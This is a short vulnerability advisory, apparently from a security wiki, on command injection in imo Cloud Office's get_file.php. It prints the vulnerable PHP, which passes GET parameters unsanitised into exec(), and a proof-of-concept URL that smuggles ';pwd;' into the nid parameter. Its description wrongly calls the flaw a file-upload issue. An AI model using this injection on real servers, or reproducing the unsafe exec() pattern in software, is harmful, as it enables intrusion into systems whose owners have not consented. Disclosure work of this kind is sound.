 # imo cloud office get_file.php remote command execution vulnerability

## Vulnerability Description

imo cloud office /file/NDisk/get_file.php filtering is not strictly caused by unlimited upload of files, and attackers can directly obtain website permissions through this vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">imo Cloud Office</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162918737.png)

Vulnerability file get_file.php

```javascript
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

Verify POC

```javascript
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645880486605-ff738b08-cb7a-4039-b079-a167e13bc567.png)